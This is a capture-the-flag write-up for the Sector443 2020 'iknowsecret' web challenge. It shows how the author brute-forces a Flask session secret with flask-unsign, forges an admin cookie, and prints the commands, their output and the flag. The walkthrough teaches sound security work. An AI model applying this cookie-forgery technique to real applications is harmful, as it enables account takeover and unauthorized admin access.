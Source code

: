 # Sector443 CTF 2020: Web - iknowsecret (443 points)

## Description:

![img](https://raw.githubusercontent.com/FreezeLuiz/CTF-Writeups/master/Web/images/sector443/iknowsecret/iknowsecret-chall_description.PNG "Challenge Description")

The information from the challenge description is a lot! But we get 3 important things:

1. we have user accounts to login
2. we have the URL 
3. we need to be `admin`

>Sounds easy! Lets see...


## Recon and Analysis:

I don't like dirbuster the website, because usually in CTF challenges thats not the intended route.

My first thought after logging in with `Alice`, is that _it has to be an `authentication token` challenge._

I looked at the cookies and there was a session cookie called `session` that had the value:

```
session = eyJ1c2VybmFtZSI6IkFsaWNlIn0.X4LFSQ.UIhkGLEypsn2egiwIXKNMoyJ0Pc
```

At first glance, it may look like a [JWT](https://jwt.io/) token. Looking at it closely, it doesn't have the same structure as a JWT.
```
JWT's Structure
---------------

Header . Payload . Signature


This Token's Structure
----------------------

Payload . ???? . ????

Then its not JWT :( *le sad noises!*
```

When we send login requests multiple times, we get a different session cookie every time. 

```
1st: eyJ1c2VybmFtZSI6IkFsaWNlIn0.X4LFSQ.UIhkGLEypsn2egiwIXKNMoyJ0Pc
2nd: eyJ1c2VybmFtZSI6IkFsaWNlIn0.X4LXxA.Jc7Djou7JXl_H4WTJpDaAPwk-E4
3rd: eyJ1c2VybmFtZSI6IkFsaWNlIn0.X4LX6A.L9EuQltdNTUfk-0n_SZHh8yWn3M
```
The two things in common in these cookies are: The first half which is the payload or the data of the user `{"username": "Alice"}` base64 encoded, and the second half which always starts with `X4L***`.


The next key element to solve this challenge is the server's response headers. 

![img](https://raw.githubusercontent.com/FreezeLuiz/CTF-Writeups/master/Web/images/sector443/iknowsecret/iknowsecret-python_server_flask.PNG "Flask Server")

That `server` header indicates that its running [Flask](https://flask.palletsprojects.com/), a python web server. 


## Solution

After googling around a bit for flask authentication token, I found something called [flask_unsign](https://pypi.org/project/flask-unsign/) that can take a token and bruteforce its secret, then using that secret we can forge other flask authentication tokens. 

```
kali@kali:~/Documents/sector443/iknowsecret$ python3 /home/kali/.local/lib/python3.8/site-packages/flask_unsign/__main__.py -u -c eyJ1c2VybmFtZSI6IkFsaWNlIn0.X4LX_Q.LU2iFhRBcP2nRHMCpdDQ1FnJY4o
[*] Session decodes to: {'username': 'Alice'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2560): -----BEGIN PRIVATE KEY-----eke
[+] Found secret key after 18048 attemptsxxxxxxxxxxxx
'xxxxxxxx'
```

>For some reason I wasn't able to get the program in my path, so I had to get a work around and use the main py script from the module itself...

We got the secret `xxxxxxxx`...

```
kali@kali:~/Documents/sector443/iknowsecret$ python3 /home/kali/.local/lib/python3.8/site-packages/flask_unsign/__main__.py --sign -c "{'username': 'admin'}" --secret 'xxxxxxxx' --legacy

eyJ1c2VybmFtZSI6ImFkbWluIn0.X4LfAw.G-znSjIPN3MlE92fEgvN2vVpMMA
```
`eyJ1c2VybmFtZSI6ImFkbWluIn0.X4LfAw.G-znSjIPN3MlE92fEgvN2vVpMMA` Is the admin token with a correct signature that will authenticate with the server.

After replacing the `session` cookie value with that new one, we will get the flag:

![img](https://raw.githubusercontent.com/FreezeLuiz/CTF-Writeups/master/Web/images/sector443/iknowsecret/iknowsecret-flag.PNG "flag.. yay!")

Flag = `S443{D7WZDqWffsFwU99Z}`
